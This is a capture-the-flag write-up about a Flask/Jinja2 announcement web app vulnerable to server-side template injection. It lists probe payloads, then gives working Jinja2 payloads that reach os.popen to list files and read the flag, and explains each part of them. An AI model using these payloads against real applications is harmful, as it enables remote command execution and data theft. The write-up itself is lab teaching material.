





# **SSTI**

## Description

>I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps!


Simple announcement web app. POST `/announce` with form field `content`. Server header: `Server: Werkzeug/3.0.3 Python/3.8.10` — likely Flask + Jinja2. Goal: determine whether user-supplied templates are evaluated (Server-Side Template Injection) and, if so (CTF only), extract the flag.


---

## Recon

* Visited `/` and saw a form:




  ```
  <form action="/" method="POST">
    What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
  </form>
  ```

* Observed server fingerprint:

  ```
  Server: Werkzeug/3.0.3 Python/3.8.10
  ```
  we can cheak this by using `curl`

  

  → strong hint the app is Flask (Jinja2 templating).

* Captured a sample POST (URL-encoded):

  we will enter {{2*2}}  if SSTI is present then this will give us 4

  ```
  POST /announce HTTP/1.1
  Content-Type: application/x-www-form-urlencoded

  content=%7B%7B2*2%7D%7D
  ```
  

  which decodes to `content={{2*2}}`.


  


---

## Engine identification

* Server header + Python tracebacks (if any) → Jinja2 (Flask).

---

## Safe payload list (detection & low-impact info)

Use these first to confirm and learn about context:

* `{{7*7}}` → `49` if evaluated
* `{{"SSTI"}}` → `SSTI`
* `{{config}}` → may reveal config object or cause informative error
* `{{i}}` → `123` if control structures allowed

(Do not run dangerous commands on non-CTF targets.)

---

## NEXT-STEP

1. **Recon filesystem** (if SSTI confirmed and allowed):
   `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}`
   — lists files recursively (recon).

   

   we can see that there is an file name flag we will use cat to get the contents inside it

2. **Read potential flag file(s)**:
   `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`
   will printout whats inside the flag file

   


* `{{ ... }}` — Jinja2 template expression: evaluate the inside and insert the result into the rendered page.
* `request.application` — from the HTTP `request` object, access the running Flask/Werkzeug application instance.
* `.__globals__.__builtins__.__import__('os')` — reach Python globals/builtins and dynamically import the `os` module.
* `os.popen('ls -R')` — run the shell command `ls -R` and get a file-like handle to its output.
* `.read()` — read the command output into a string.

---


